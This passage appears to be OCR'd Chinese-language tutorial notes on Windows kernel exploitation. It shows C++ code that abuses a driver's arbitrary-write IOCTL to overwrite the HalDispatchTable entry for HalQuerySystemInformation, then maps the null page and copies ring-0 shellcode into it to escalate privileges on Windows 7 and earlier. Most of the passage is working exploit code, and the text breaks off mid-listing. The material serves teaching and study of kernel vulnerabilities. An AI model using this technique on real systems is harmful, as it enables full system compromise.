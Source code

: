                 ```cpp
                //利用漏洞将HalQuerySystemInformation函数地址改为0
                InputData = 0;
                NtStatus = NtDeviceIoControlFile(
                    DeviceHandle,         // FileHandle
                    NULL,                 // Event
                    NULL,                 // ApcRoutine
                    NULL,                 // ApcContext
                    &IoStatusBlock,       // IoStatusBlock
                    IOCTL_METHOD_NEITHER, // IoControlCode
                    &InputData,           // InputBuffer--->任意数据()
                    BUFFER_LENGTH,        // InputBufferLength
                    xHalQuerySystemInformation, // OutputBuffer-->任意地址
                    BUFFER_LENGTH);       // OutBufferLength
                ```
                下图为`HalDispatchTable`表篡改前后: 

                <img alt="" src="./pic/krnl_vul_1.jpg" width="50%" height="50%">

                <img alt="" src="./pic/krnl_vul_2.jpg" width="50%" height="50%">
                
            * 在R3分配一个0地址空间(`NtAllocateVirtualMemory`, win7及以前可用), 并将shellcode拷贝到此内存空间
                * 代码
                    ```cpp
                    ShellCodeAddress = (PVOID)sizeof(ULONG);//4
                    NtStatus = NtAllocateVirtualMemory(
                        NtCurrentProcess(),      // ProcessHandle
                        &ShellCodeAddress,       // 期望内存基址指针(ShellCodeAddress的值是4, 函数调用后, 值变为0). 
                        0,                       // ZeroBits
                        &ShellCodeSize,          // shellcode大小, 4k(一个内存页)
                        MEM_RESERVE | 
                        MEM_COMMIT |
                        MEM_TOP_DOWN,            // AllocationType
                        PAGE_EXECUTE_READWRITE); // Protect可执行, 可读可写

                    //复制Ring0ShellCode到0地址内存中
                    RtlMoveMemory(
                        ShellCodeAddress,
                        (PVOID)Ring0ShellCode,
                        ShellCodeSize);
